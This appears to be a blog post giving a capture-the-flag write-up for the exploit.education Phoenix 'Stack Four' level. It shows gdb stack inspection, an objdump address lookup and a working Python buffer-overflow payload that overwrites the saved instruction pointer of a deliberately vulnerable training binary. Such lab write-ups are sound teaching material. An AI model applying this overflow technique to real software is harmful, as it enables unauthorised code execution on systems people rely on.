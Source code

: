 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x4"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 4

Write-up for: [https://exploit.education/phoenix/stack-four/][Stack Four]

<!--more-->

The goal is to redirect execution to `complete_level` by overflowing the saved instruction pointer.

Analyzing the binary / source reveals a stack buffer overflow in the start_level function. 

```c
char buffer[64];
void *ret;

gets(buffer);
```

This means by providing a buffer larger than 64 bytes, we can overflow the saved instruction pointer. The question is, where exactly is it relative to the buffer?

To find this out we run the binary with gdb, feed it exactly 64 bytes of input data, and look at the stack at the end of `complete_level`.

```
python -c 'print "A"*64' > ~/64_bytes
gdb stack-four
break *start_level+46
r < ~/64_bytes
x/x32w $esp

0xffffd5a0:     0xf7ffb1e0      0xffffd5bf      0x00000001      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e0:     0x41414141      0x41414141      0x41414141      0x0804855c
0xffffd5f0:     0x08048610      0x00000000      0xffffd608      0x0804855c
0xffffd600:     0x00000000      0xffffd620      0xffffd69c      0xf7f8f654
0xffffd610:     0xffffd694      0x00000001      0xffffd69c      0xf7f8f654
```

As we can see, right after our buffer is the local variable `ret`which contains the return address `0x0804855c` which we also see one row below. This means the stored instruction pointer is at offfset `sizeof(buffer) + 16`.

After getting the address of complete_level via objdump, exploitation is trivial.

```
ser@phoenix-amd64:/opt/phoenix/i486$ objdump -t stack-four | grep complete_level
080484e5 g     F .text  00000020 complete_level
```

# Exploit

1. Overflow buffer
2. add 16 bytes of padding
3. Overwrite EIP with address of complete_level

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64+ "B"*16+"\x08\x04\x84\xe5"[::-1]' | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x80484e5
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
